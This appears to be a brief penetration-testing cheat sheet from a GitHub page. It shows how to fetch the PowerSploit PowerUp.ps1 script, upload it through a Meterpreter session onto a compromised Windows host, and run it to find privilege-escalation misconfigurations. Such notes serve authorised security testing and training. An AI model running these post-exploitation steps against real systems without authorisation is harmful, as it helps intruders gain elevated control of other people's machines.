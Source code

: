 --- ---

<h2>Command</h2>

```
#Get a Meterpreter Shell

#Download PowerUp
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

#Upload PowerUp on meterpreter (windows machine)
meterpreter > upload /FILE/PowerUp.ps1

#Run  the ps1 executable
. .\PowerUp.ps1
```

---

<h2>What is PowerUp</h2>

PowerUp purpose is to evaluate a Windows machine and determine any abnormalities. It aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations. (VIA METERPRETER)
